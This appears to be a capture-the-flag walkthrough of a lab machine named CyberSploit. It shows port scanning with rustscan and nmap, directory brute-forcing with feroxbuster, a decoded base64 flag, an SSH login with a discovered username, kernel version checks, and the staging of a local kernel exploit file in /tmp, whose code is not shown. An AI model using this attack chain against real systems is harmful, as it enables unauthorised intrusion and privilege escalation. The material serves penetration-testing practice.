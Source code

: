 ```
> rustscan -b 1000 -u 5000 -r 0-65535 -a 192.168.187.92 -- -Pn
```
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.187.92:22
Open 192.168.187.92:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-23 03:25 EDT
Initiating Parallel DNS resolution of 1 host. at 03:25
Completed Parallel DNS resolution of 1 host. at 03:25, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 03:25
Scanning 192.168.187.92 [2 ports]
Discovered open port 80/tcp on 192.168.187.92
Discovered open port 22/tcp on 192.168.187.92
Completed Connect Scan at 03:25, 0.17s elapsed (2 total ports)
Nmap scan report for 192.168.187.92
Host is up, received user-set (0.17s latency).
Scanned at 2023-10-23 03:25:19 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.20 seconds
```

```
http://192.168.187.92/
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/2b132ff5-f7b3-431e-b8d8-aa32c3efb864)
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/c944b990-66f2-4a8b-b39b-9d3b0cb48df3)
```
username:itsskv
```

Feroxbuster
```
> feroxbuster -u http://192.168.187.92 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --no-recursion --dont-extract-links --random-agent --filter-status 404

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.187.92
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       10l       30w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       50l      133w     2333c http://192.168.187.92/
200      GET       50l      133w     2333c http://192.168.187.92/index
200      GET        1l        1w       53c http://192.168.187.92/robots
200      GET        0l        0w  3757743c http://192.168.187.92/hacker
[####################] - 5m     87650/87650   0s      found:4       errors:0      
[####################] - 5m     87650/87650   290/s   http://192.168.187.92/  
```

```
http://192.168.187.92/robots
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/9b2f982e-ac4d-4d7e-9b4d-c2728b57dc52)
```
> echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 --decode
cybersploit{youtube.com/c/cybersploit}%   
```

SSH as `itsskv`
```
> ssh itsskv@192.168.187.92
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/03023a8f-5f2f-449d-bc58-2fdfb37d81f3)

```
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux
itsskv@cybersploit-CTF:~$ cat /etc/issue
Ubuntu 12.04.5 LTS \n \l
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/340443b1-3c1f-4754-a82b-3ef77be63321)

```
itsskv@cybersploit-CTF:~$ cd /tmp
itsskv@cybersploit-CTF:/tmp$ nano exploit.c
itsskv@cybersploit-CTF:/tmp$ chmod +x exploit.c 
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/8480e4ea-72ec-499a-bb79-496f5e2570a2)
